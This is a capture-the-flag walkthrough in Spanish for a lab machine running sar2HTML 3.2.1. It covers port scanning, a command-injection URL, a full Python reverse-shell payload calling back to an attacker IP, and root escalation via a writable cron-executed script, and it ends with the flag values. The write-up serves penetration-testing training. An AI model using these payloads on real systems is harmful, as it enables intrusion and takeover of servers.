`sudo nmap 192.168.238.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts`



`nmap 192.168.238.35 -sCV -p22,80 -oN target`



Ubuntu Default page en p80.

Antes de lanzar fuerza bruta de directorios, vamos a ver si tiene un robots.txt que pudiera arrojarnos información.



Probamos sar2HTML tal y como aparece en /robots.txt



Podemos ver que parece un conversor en sar2html (tal y como indica su nombre) en la versión 3.2.1. Si buscamos en searchsploit:

`searchsploit sar2html`



Tenemos RCE.

Si observamos el 47204.txt, vemos unas intrucciones.



Parece que podemos ejecutar comandos directamente:

`http://192.168.238.35/sar2HTML/index.php?plot=;id`

Acto seguido hacemos click en "Select Host" y podemos ver el output de nuestro comando. Para este caso concreto (id), podemos ver www-data:



Vamos a intentar mandarnos una revshell con python: 

- Abrimos listener con netcat:

`nc -nlvp 4444`



Enviamos:

`192.168.238.35/sar2HTML/index.php?plot=;export RHOST="192.168.45.180";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`



Estamos dentro como www-data.

En /home/local.txt encontramos la flag de usuario.

`whoami && ip addr && cat local.txt`



valor local.txt: 59b123f0d7e88a5fea7c046f43bb0a36

# PRIVESC

`cat /etc/crontab`



Cada 5 minutos se está ejecutando por el usuario root el siguiente script:



Que a su vez ejecuta:



Es decir, cada 5 minutos se ejecuta finally.sh, que a su vez ejecuta write.sh.

Si observamos los permisos de write.sh, vemos que www-data es owner y que también podemos modificar su contenido:



Dado que podemos modificar el contenido de write.sh, las dos formas más rápidas para escalar privilegios son:
- Modificar el script para que nos envíe una reverse shell a nuestra máquina
- Otorgar privilegio SUID a la bash.



Esperamos a que se ejecute por root y nos mande la revshell con privilegios.



Y comprobamos la vía de escalada de privilegios a través de SUID a la bash:



En /root/root.txt encontramos la flag de root.

`whoami && ip addr && cat proof.txt`



Valor proof.txt: de6c604c2a2778c9854f69067b5dd9b5
